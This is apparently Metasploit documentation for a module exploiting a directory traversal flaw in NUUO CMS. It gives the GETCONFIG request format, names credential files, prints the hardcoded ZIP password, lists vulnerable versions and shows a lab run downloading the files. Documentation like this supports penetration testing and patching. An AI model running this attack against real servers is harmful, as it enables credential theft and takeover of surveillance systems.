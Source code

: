 ## Vulnerable Application

Nuuo CMS Authenticated Arbitrary File Download

The GETCONFIG verb is used by a CMS client to obtain configuration files and other resources from the CMS server. An example request is below:

```
GETCONFIG NUCM/1.0
FileName: <filename>
FileType: <number>
User-Session-No: <session-number>
```

The FileType determines the directory where the file will be downloaded from. "FileType: 0" will download from the base installation directory (CMS_DIR), while "FileType: 1" will download from "<CMS_DIR>\Images\Map\". There are other defined FileType integers, but these have not been investigated in detail.

The vulnerability is in the "FileName" parameter, which accepts directory traversal (..\\..\\) characters. Therefore, this function can be abused to obtain any files off the file system, including:

- CMServer.cfg, a file zipped with the password "NUCMS2007!" that contains the usernames and passwords of all the system users (enabling a less privileged user to obtain the administrator's password)
- ServerConfig.cfg, another file zipped with the password "NUCMS2007!" that contains the SQL Server "sa" password as well the FTP server username and password
- Any other sensitive files in the drive where CMS Server is installed.

This module works in the following way:

- if a SESSION number is present, uses that to login
- if not, tries to authenticate with USERNAME and PASSWORD

Due to the lack of ZIP encryption support in Metasploit, the module prints a warning indicating that the archive cannot be unzipped in Msf.

[NUUO Central Management Server (CMS): all versions up to and including 3.5.0](http://d1.nuuo.com/NUUO/CMS/)

The following versions were tested:

 - 1.5.2 OK
 - 2.1.0 OK
 - 2.3.2 OK
 - 2.4.0 OK
 - 2.6.0 OK
 - 2.9.0 OK
 - 2.10.0 OK
 - 3.1 OK
 - 3.3 OK
 - 3.5 OK

## Scenarios

### Tested on Windows 10 Pro x64 running NCS Server 2.4.0

```
msf5 auxiliary(gather/nuuo_cms_file_download) > set rhosts 172.22.222.200
rhosts => 172.22.222.200
msf5 auxiliary(gather/nuuo_cms_file_download) > exploit

[+] 172.22.222.200:5180 - Downloaded file to /home/msfdev/.msf4/loot/20190219064923_default_172.22.222.200_CMServer.cfg_227185.cfg
[+] 172.22.222.200:5180 - Downloaded file to /home/msfdev/.msf4/loot/20190219064923_default_172.22.222.200_ServerConfig.cfg_050084.cfg
[*] 172.22.222.200:5180 - The user and server configuration files were stored in the loot database.
[*] 172.22.222.200:5180 - The files are ZIP encrypted, and due to the lack of the archive/zip gem,
[*] 172.22.222.200:5180 - they cannot be decrypted in Metasploit.
[*] 172.22.222.200:5180 - You will need to open them up with zip or a similar utility, and use the
[*] 172.22.222.200:5180 - password NUCMS2007! to unzip them.
[*] 172.22.222.200:5180 - Annoy the Metasploit developers until this gets fixed!
[*] Auxiliary module execution completed
msf5 auxiliary(gather/nuuo_cms_file_download) >
```
